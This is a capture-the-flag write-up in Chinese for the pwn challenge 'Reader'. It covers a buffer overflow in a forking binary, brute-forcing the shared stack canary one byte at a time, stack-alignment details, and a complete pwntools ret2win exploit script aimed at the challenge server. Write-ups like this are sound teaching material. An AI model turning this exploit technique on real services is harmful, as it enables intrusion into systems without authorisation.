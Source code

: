 # pwn - Reader Writeup

---  
![pic](pic/reader.png)

## FLAG：
`CYBORG{u_hulk_sm4sh3d_th4t_c4n4ry_l1k3_a_ch4mp!!!`

## 觀察：
- 執行檔案：不斷詢問`Enter some data: `，在輸入任意字串後印出`Your data was read. ...`等訊息。
- checksec：canary found
- IDA分析：
	- `main()`：不斷fork出child
	- child：執行`vuln()`
	- `vuln()`：詢問`Enter some data: `、接收 input 以及印出`Your data was read. ...`等訊息。
	- `win()`：印出flag.txt
	- `main()` ![pic](pic/main.png)
	- `vuln()` ![pic](pic/vuln.png)
	- `win()` ![pic](pic/win.png) ![pic](pic/win_asm.png)

## 思路：
- `vuln()`輸入字串的地方有bof漏洞，且有個`win()`作為跳轉目標，可以用 **ret2win** 解題。
- 由於所有child的canary都一樣，且child發生stack smash時不影響parent，parent可以繼續fork出child執行程式，可以用 **Bruteforcing forks / threads** 來找出正確的canary。

## 目標：
- 找出stack canary並在覆蓋return address時正確注入。
- 找出`win()`的位址並跳轉。(optional) 注意`$rsp`對齊16bytes的問題。

## 步驟：
1. canary共8個byte，第一個byte會是`'\x00'`。
2. 在canary尾端添加1個可能的byte，直到沒有發生stack smash，表示猜測正確。
3. 猜測canary直到8個byte都解出。
4. 將canary與`win()`的位址注入。獲得FLAG。

> [!NOTE] `$rsp` alignment
> `$rip`跳到`win()`的當下，`$rsp`會對齊16 byte，即`$rsp`的結尾是0x...0(而非0x...8)。接著若在`win()`中執行`push`指令(通常是`push rbp`)會使`$rsp`的值減少8而沒有對齊16 byte，進而造成一些與`$rsp`有關的指令無法執行，產生`SIGBUS` signal 終止程式。  
> - 因此在`$rip`跳到`win()`時，我刻意跳到`<win+5>`的位置避免這個問題。
## Exploit：  

```python
#!/usr/bin/python3.8
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote('0.cloud.chals.io', 10677)
#r = process("./reader")
canary = b'\x00'
byte = [ long_to_bytes(x) for x in range(1, 0x100) ]
  
r.recvuntil(b"Enter some data: ")
  
while len(canary) != 8:
    for b in byte:
        candidate = canary + b
        #print(f"trying: {candidate = }")
        payload = b'A'*72 + candidate
        r.send(payload)
        rst = r.recvuntil(b'Enter some data: ').decode()
        if rst.find('***') == -1:        # no stack smashing
            canary = candidate
            print(f'current {canary = }')
            break
  
payload = b'A'*72 + canary + b'B'*8 + p64(0x40127B)
r.send(payload)
r.interactive()
```

![pic](pic/flag.png)